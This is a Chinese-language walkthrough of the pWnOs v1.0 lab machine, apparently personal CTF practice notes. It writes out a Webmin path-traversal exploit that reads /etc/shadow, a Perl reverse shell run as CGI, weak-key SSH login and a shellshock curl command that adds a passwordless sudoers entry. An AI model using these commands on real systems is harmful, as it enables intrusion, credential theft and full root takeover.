



# pWnOs_v1.0（√）

## nmap扫描  

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open            Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2024-03-07T05:03:26-06:00
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 3h00m00s, deviation: 4h14m34s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.69 seconds

```

## 目录扫描


## web渗透  


一点进来发现这个参数试着sql注入，根据warning发现这个是文件包含  
  
```
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```
1000端口是个webmin cms  
  
/php目录有一个phpmyadmin，但是需要账号密码，然后发现了css漏洞，暂时没什么用  
  
//就在我没有思路的时候，才开始看视频  
  
webmin利用这个漏洞，英文的意思是任意文件泄露，因为我之前找了很久都没有找到webmin的版本号，这么多exp自然不知道利用哪个，但视频里直接根据exp描述而去尝试这些exp  
然后利用pl文件成功读取到/etc/passwd文件，同时利用webmin还能读取shadow文件  
```
perl 2017.pl 192.168.25.116 10000 /etc/shadow 0
```
  
然后使用rockyou.txt破解这些hash，一个小技巧，靶机中的密码基本上会出现在rockyou.txt中，结果只有一个  
  

## 获得初始shell

ssh连接尝试，提示报错，然后我们使用-o然后tab键查看需要的参数  
  
  

## 提权  

suid发现mtr，但其只是能读取文件  
  
linux版本 2.6.22  
  
通常内核漏洞提权最后考虑  
在我们之前通过webmin访问shadow文件时我们应该知道，webmin用户可能有特殊权限  
  
这个时候我们需要反弹webmin shell  
```
cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.cgi
```
这里将反弹shell脚本改成cgi后缀，然后使用perl执行  
```
perl 2017.pl 192.168.25.116 10000 /tmp/shell.cgi 0
```
之所以改成cgi后缀，是因为webmin是perl搭建的web程序，解释器只能解释cgi文件，如果上传pl后缀文件则不能收到反弹shell，监听即可获得root shell  


## 总结  

+ web页面很容易发现了第一个lfi
+ webmin的exp利用没能想到，因为不知道版本号就不知道该用哪一个
+ 虽然都是lfi，但是权限不同，以致可以访问shadow
+ 因为webmin的特殊权限，所以提权也应该想到这里
+ perl执行cgi文件也是初次了解到


# 知识拓展  

## lfi敏感文件读取  

在发现lfi漏洞之后除了/etc/passwd和/etc/shadow之后，好像就不知道哪些是敏感文件，在以前的打靶练习中，靶场会给这两种特殊情况：
+ 如果扫描端口出现filtered,那可能需要knock服务，然后访问/etc/knockd.conf解开  
+ 另一种特殊的就是log文件能够解析php，如ssh的/var/log/auth.log、apache的/var/log/apache/access.log等，然后直接写shell  

但是这仅仅是靶机会设立这样的入口，我们可以通过github一个叫 [Auto_wordlists](https://github.com/carlospolop/Auto_Wordlists)的项目去了解哪些是敏感文件，那么对于这个靶机，我们发现了四个账户，我们可以去读取/home/xxx/.ssh/authorized_keys，（这个是公钥，可以实现免密登录，私钥在管理员自己电脑上，公钥在服务器上，然后管理员通过私钥去和公钥进行匹配即可实现免密登录），然后通过伪随机数生成器碰撞私钥  

## 用公钥信息破解私钥  

首先searchsploit搜索prng（伪随机数生成器），视频里演示的是5622.txt，然后根据文本内容下载压缩包解压  
  

```
grep -lr "AAAAB3NzaC1kC3MAAACBA0gZZMCD3Im5bRnA"
```
-l是列出文件内容中和字符串匹配的文件，-r是递归搜索，字符串是公钥截取的一小段  
然后再obama账户中成功匹配到公钥，去掉.pub后缀就找到了私钥  

## ssh登录参数  

使用密钥直接登录，并且根据提示添加了-oHostKeyAligorithms参数，但还是需要密码，证明私钥登录是失败的，我们就-vv参数可以看到更清楚的交互信息，  
  
提示我们是公钥没有共同签名的支持，然后-oPubkey再按tab键提示，因为是加密类型不匹配，所以选择-oPubkeyAcceptedKeyTypes，然后成功登录  

## 内核漏洞提权  

前面我们已经发现了内核版本很低，应该可以使用内核漏洞提权，还需要注意一个点就是如果不能sudo那么suid也用不了，然后这个靶机可以使用5092.c进行编译提权  

## shellshock提权  

Shellshock是GNU Bourne Again Shell（BASH）中的一个漏洞，攻击者可以使用特制环境变量来运行任意命令。
```
bash --version
```
如果bash版本小于4.3那么很有可能有shellshock漏洞  
  
```
env x='() { :; }; echo "It is a Vuln"' bash -c date
```
这是一条验证shellshock的语句，前面是固定的，注意空格，bash -c是启动一个新bash，date显示日期，验证存在之后，我们就需要通过shellshock可以执行任意命令配合webmin的高权限进行一个提权  
1. 先创建一个cgi文件，写入#/bin/bash让其能够执行bash命令，并赋予权限  
2. 访问之前的exp 2017.pl了解其漏洞利用逻辑是通过http:ip/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd这样的形式读取文件  
3. 我们知道读取文件的方式之后，通过在http包UA头写入shellshock exp，最终exp如下  

```
curl http://10.10.10.25:10000/unauthenticated/..%01/ ..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/obama/RedteamNotes.cgi -A '() { :; }; /bin/echo "obama ALL=(ALL)NOPASSWD:ALL " >> /etc/sudoers'
``` 
通过url访问cgi，并且修改UA头（-A参数是UA头）然后执行shellshock漏洞，因为obama账户我们是私钥登录不知道密码，所以加上NOPASSWD参数，或者可以用vmware账户进行操作，最后sudo su即可提权  

## 总结  

算是学到了很多新东西，逐渐加深了对lfi的利用，并且利用shellshock提权算是一种新的提权方式  
